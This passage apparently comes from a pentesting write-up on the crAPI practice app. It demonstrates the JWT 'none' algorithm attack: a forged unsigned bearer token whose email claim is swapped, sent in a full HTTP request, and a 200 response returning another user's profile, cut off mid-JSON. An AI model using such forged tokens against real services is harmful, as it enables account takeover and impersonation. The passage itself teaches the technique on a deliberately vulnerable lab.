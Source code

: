 This attack remove the signature from the JWT Token and the application, if doesn't check the signature, will accept it. So, with this attack, you can change the payload by inserting the email of another user and you will login as that user.
In the crAPI, we can change the user in this way:

![JWT Token With other user](/assets/img/posts/api-pentest/jwt_token2_otheruser.png)

The request will be:
```http
GET /identity/api/v2/user/dashboard HTTP/1.1
Host: localhost:8888
User-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) jwt_tool jwttool_5a12251d49009ecf554c78cd07ef944d
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MkB0ZXN0LmNvbSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjgxMDM0MDA3LCJleHAiOjE2ODE2Mzg4MDd9.
```

And the response:
```http
HTTP/1.1 200 
Server: openresty/1.17.8.2
Date: Sun, 09 Apr 2023 10:41:27 GMT
Content-Type: application/json
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Length: 185

{
   "id":9,
   "name":"test test",
   "email":"test2@test.com",
   "number":"0123456783",
   "picture_url":null,
```